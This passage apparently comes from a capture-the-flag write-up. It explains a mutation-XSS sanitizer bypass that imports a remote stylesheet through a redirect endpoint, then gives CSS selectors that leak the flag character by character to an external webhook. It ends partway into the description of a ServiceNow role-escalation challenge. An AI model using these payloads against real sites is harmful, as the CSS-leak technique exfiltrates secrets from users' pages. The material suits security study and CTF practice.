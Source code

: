 The first seems to normalize all keys and make them lowercase. This seems like it could definately be useful, since our character set only allows uppercase characters. 

The second is a redirect route, which will redirect to any url we give it. Note though that this redirect endpoint will actually add `http://` to our url if it doesn't already start with that. This might be interesting as well since we dont have a `/`, but can use this so get a URL.

Hopefully these are hinting to the solution now, and we can put it all together. We don't have that many characters to work with in our stylesheet, so we atleast need to import another one. Here is the final payload I used:
```html
<TABLE><TH><SVG><STYLE>@IMPORT URL(REDIRECT?URL=EO5VZGJXDJI72UU.M.PIPEDREAM.NET)<TITLE><COL><TITLE>
```

This will import the stylesheet at `EO5VZGJXDJI72UU.M.PIPEDREAM.NET`, a free webhook service.
This stylesheet can follow a standard CSS Leak pattern: We utilize a CSS selector on the `a` tags' `href` attribute. If we have a match, we set the background to our webhook, with a parameter that identifies what letter triggered it. We can leak the flag one (or multiple) characters at a time using this procedure.
```css
a[href^="view\?content\=sdctf{a"]  { background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{a); }
a[href^="view\?content\=sdctf{b"]  { background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{b); }
a[href^="view\?content\=sdctf{c"]  { background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{c); }
a[href^="view\?content\=sdctf{d"]  { background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{d); }
a[href^="view\?content\=sdctf{e"]  { background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{e); }
a[href^="view\?content\=sdctf{f"]  { background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{f); }
```


### References
- https://xsleaks.dev/docs/attacks/css-injection/
- https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
- https://new-blog.ch4n3.kr/bypassing-dompurify-possibilities/
- https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/
- https://mizu.re/post/intigriti-october-2023-xss-challenge

## SNOWfall (1 solve, 500 pts)
### Description
Flag is at https://dev258962.service-now.com/flag, thats it! Oh you might need a special role for it, but I hear its not too hard to request.

### Challenge
We are given a link to a ServiceNow instance, and are told that the flag is at the `/flag` endpoint. We are also told that we might need a special role for it, hinting that the `/flag` endpoint is protected by some sort of role based access control. We are additionally given a `zip` containing `SNOWfall.xml`, which is an "Update Set", similar to a `patch` file that can be applied to a personal ServiceNow instance to recreate the challenge scenario.
